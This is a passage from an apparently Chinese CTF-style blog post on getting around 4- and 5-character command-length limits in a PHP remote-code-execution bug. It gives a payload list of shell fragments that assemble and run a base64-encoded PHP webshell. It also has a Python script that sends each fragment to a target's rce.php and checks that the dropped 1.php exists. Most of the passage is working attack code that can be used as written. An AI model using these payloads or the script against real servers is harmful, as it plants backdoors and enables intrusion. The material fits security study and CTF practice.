 payload:

<pre class="wp-block-code"><code>>hp
>1.p\\
>d\>\\
>\ -\\
>e64\\
>bas\\
>7\|\\
>XSk\\
>Fsx\\
>dFV\\
>kX0\\
>bCg\\
>XZh\\
>AgZ\\
>waH\\
>PD9\\
>o\ \\
>ech\\
ls -t>0
sh 0</code></pre>
脚本代码：

```python
import requests

url = "http://192.168.61.157/rce.php?1={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
	for i in f:
		print("[*]" + url.format(i.strip()))
		requests.get(url.format(i.strip()))

#检查是否攻击成功
test = requests.get("http://192.168.61.157/1.php")
if test.status_code == requests.codes.ok:
	print("[*]Attack success!!!")
```

### **5个字符**

解决ls -t>0，a在排序在l前符号后，可以使用下面的方法拆分。

<pre class="wp-block-code"><code>>ls\\
ls>a
>\ \\
>-t\\
>\>0
ls>>a</code></pre>

参考：<a rel="noreferrer noopener" href="https://www.freesion.com/article/8743881775/" target="_blank" rel="nofollow" >https://www.freesion.com/article/8743881775/</a>、<a href="https://www.freesion.com/article/49311037498/" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.freesion.com/article/49311037498/</a>


[1]: https://www.freesion.com/images/969/c9db6635dd9abcdf077f27576aef5e59.png
[2]: https://www.freesion.com/images/163/0c566f59f77d40f4bcd7d55bd4976833.png
[3]: https://www.freesion.com/images/385/ee52a107b1a0028e7883d34d156cb511.png
[4]: https://www.freesion.com/images/191/b6c3bb8ddefff62d99609983f27284a7.png